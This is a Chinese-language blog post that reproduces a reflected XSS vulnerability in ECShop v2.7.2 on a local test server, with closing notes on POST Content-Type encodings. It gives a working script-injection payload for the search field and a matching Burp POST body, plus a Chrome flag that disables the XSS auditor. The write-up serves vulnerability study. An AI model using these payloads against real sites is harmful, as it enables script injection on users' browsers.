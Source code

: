 ```yaml
---
title: ecshop XSS 复现
date: 2019-08-17 13:35:05
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 漏洞复现
    - XSS
    - ecshop
---
```


# 0x01 前言
使用Chrome调试XSS漏洞，需要关闭XSS过滤器,才能成功弹窗

`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --args --disable-xss-auditor`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191008215335.png)

# 0x02 复现
本地搭建ECShop v2.7.2 ，php版本5.3及以下，否则会报各种各样的错

访问`http://192.168.1.6/article_cat.php?id=1`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191008220513.png)

搜索框输入`1\\\"><script>alert(123)</script>`提交，成功弹窗

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191008220738.png)

burpsuite抓包POST提交，记得添加

`Content-Type: application/x-www-form-urlencoded`

`keywords=1234567\\\"><script>alert(123456)</script>&id=1&cur_url=http://127.0.0.1/article_cat.php?id=1`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191008220925.png)

# 0x03 总结

这里总结一下常用POST请求类型

* raw 原始类型，可以上传任意格式的文本，比如 text、json、xml、html

```
该编码类型的表单，必须通过AJAX技术
JSON: application/json
XML: text/xml
纯文本: text/plain
html: text/html
```

* application/x-www-form-urlencoded，会将表单内的数据转换拼接成 key-value 对（非 ASCII 码进行编码）
  URLencoded: application/x-www-form-urlencoded

```
HTML中<form>标签的enctype属性用来指定表单编码格式，默认为application/x-www-form-urlencoded
请求头:（这里只给出了Content-Type字段）：
POST http://www.example.com HTTP/1.1
Content-Type: application/x-www-form-urlencoded
```

* multipart/form-data，将表单的数据处理为一条消息，以标签为单元，用分隔符分开。既可以上传键值对，也可以上传文件

```
请求头：
POST http://www.example.com HTTP/1.1
Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryrGKCBY7qhFd3TrwA
```

# 参考文章
[关闭谷歌chrome xss过滤器](https://blog.csdn.net/shiyuqing1207/article/details/46430017)
[http 请求头的几种Content-type](https://blog.csdn.net/jesse_cool/article/details/86608816)
